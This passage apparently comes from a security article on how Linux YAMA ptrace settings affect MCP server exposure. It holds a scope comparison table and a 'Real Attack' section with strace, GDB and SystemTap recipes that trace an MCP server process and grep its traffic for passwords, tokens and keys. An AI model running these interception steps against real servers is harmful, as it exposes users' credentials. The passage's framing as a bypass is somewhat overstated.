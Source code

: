 ### Scenario 3: Development Mode (YAMA Disabled)

Developers routinely disable YAMA:

```bash
# "I need to debug my MCP server"
sudo sysctl kernel.yama.ptrace_scope=0

# Now everything is vulnerable
```

## The YAMA Bypass Matrix

| ptrace_scope | Same User | Different User | Root | MCP Impact |
|--------------|-----------|----------------|------|------------|
| 0 (classic)  | ✅ Full   | ❌ Denied     | ✅   | Completely vulnerable |
| 1 (Ubuntu)   | ⚠️ Limited | ❌ Denied     | ✅   | Still vulnerable via workarounds |
| 2 (admin)    | ❌ Denied | ❌ Denied     | ✅   | Requires root compromise |
| 3 (none)     | ❌ Denied | ❌ Denied     | ❌   | Maximum security (breaks debugging) |

## Real Attack: Bypassing YAMA on Ubuntu 22.04

```bash
# Check YAMA setting
$ cat /proc/sys/kernel/yama/ptrace_scope
1  # Parent-child only

# Method 1: Become the parent
$ cat > mcp-interceptor.sh << 'EOF'
#!/bin/bash
# Launch MCP as our child
python /usr/bin/db-server.py &
MCP_PID=$!
echo "MCP started as PID $MCP_PID"

# Wait for startup
sleep 2

# Now we can trace our child!
strace -p $MCP_PID -e trace=read,write -s 1024 2>&1 | 
    tee /tmp/mcp-traffic.log | 
    grep -E "password|token|key" --color=always
EOF

$ chmod +x mcp-interceptor.sh
$ ./mcp-interceptor.sh

# Method 2: Use GDB's shell feature
$ gdb
(gdb) shell python /usr/bin/db-server.py &
(gdb) attach $!  # Attach to last background process
(gdb) catch syscall read write
(gdb) continue

# Method 3: SystemTap (if available)
$ sudo stap -e 'probe process("/usr/bin/python").syscall { 
    if (pid() == target()) printf("%s\n", argstr) 
}' -x $(pgrep db-server)
```
